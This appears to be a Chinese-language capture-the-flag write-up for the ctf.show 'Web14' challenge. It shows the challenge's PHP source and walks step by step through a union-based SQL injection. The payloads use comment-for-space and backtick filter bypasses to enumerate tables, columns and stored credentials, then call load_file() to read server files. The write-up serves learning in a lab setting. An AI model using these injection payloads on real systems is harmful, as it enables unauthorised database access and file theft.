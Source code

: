 ```yaml
---
title: "Web14  @WEB"
date: 2023-08-24
draft: false
author: "Goby"
tags: ["web","ctf.show"]
---
```


```php
<?php
include("secret.php");
if(isset($_GET['c'])){
    $c = intval($_GET['c']);
    sleep($c);
    switch ($c) {
        case 1:
            echo '$url';
            break;
        case 2:
            echo '@A@';
            break;
        case 555555:
            echo $url;
        case 44444:
            echo "@A@";
            break;
        case 3333:
            echo $url;
            break;
        case 222:
            echo '@A@';
            break;
        case 222:
            echo '@A@';
            break;
        case 3333:
            echo $url;
            break;
        case 44444:
            echo '@A@';
        case 555555:
            echo $url;
            break;
        case 3:
            echo '@A@';
        case 6000000:
            echo "$url";
        case 1:
            echo '@A@';
            break;
    }
}
highlight_file(__FILE__); 
```

理解题意：输入多少，就会在输入之后等待多少秒然后执行，使用最简单的办法，挨个试试，过长的我没试（我就不信他让我等555555秒），试到3的时候显示 here_1s_your_f1ag.php，接下来访问该页面。

![](/ctf.show/46/1.webp)

查看网站源代码，提示了过滤的关键词：information_schema.tables，information_schema.columns，linestring，空格，polygon

![](/ctf.show/46/2.webp)

这里使用反引号进行绕过

反引号：它是为了区分MYSQL的保留字与普通字符而引入的符号。

```sql
例如information_schema.tables和information_schema.`tables`都可以使用。
```

接下来开始注入，网页弹窗不便于观察回显，在源代码处进行注入，结果会在源代码最后一行进行回显

```
?query=1/**/order/**/by/**/1
```

![](/ctf.show/46/3.webp)

爆库名：web

```
?query=-1/**/union/**/select/**/database()
```

![](/ctf.show/46/4.webp)

爆表名（content）

```
？query=-1/**/union/**/select/**/group_concat(table_name)/**/from/**/information_schema.`tables`/**/where/**/table_schema=database()
```

![](/ctf.show/46/5.webp)

爆字段名(id,username,password)

```
?query=-1/**/union/**/select/**/group_concat(column_name)/**/from/**/information_schema.`columns`/**/where/**/table_name='content'
```

![](/ctf.show/46/6.webp)

爆值

```
?query=-1/**/union/**/select/**/group_concat(id,username,password)/**/from/**/content
```

![](/ctf.show/46/7.webp)

到这我们发现数据库中并没有我们想要的flag，但是有一条提示tell you a secret,secert has a secret… 所以很有可能flag在secret.php中，现在就有一个问题，我们怎么从数据库中查看文件内容呢，mysql提供了读取本地文件的函数load_file()

```
所以我们构造语句：?query=-1/**/union/**/select/**/load_file('/var/www/html/secret.php')
```

得到如下内容：

```php
<?php
$url = 'here_1s_your_f1ag.php';
$file = '/tmp/gtf1y';
if(trim(@file_get_contents($file)) === 'ctf.show'){
	echo file_get_contents('/real_flag_is_here');
}')
```

也就是如果/tmp/gtf1y中的内容为ctf.show则输出/real_flag_is_here中的值，所以我们直接将/real_flag_is_here读取即可得到flag。

![](/ctf.show/46/8.webp)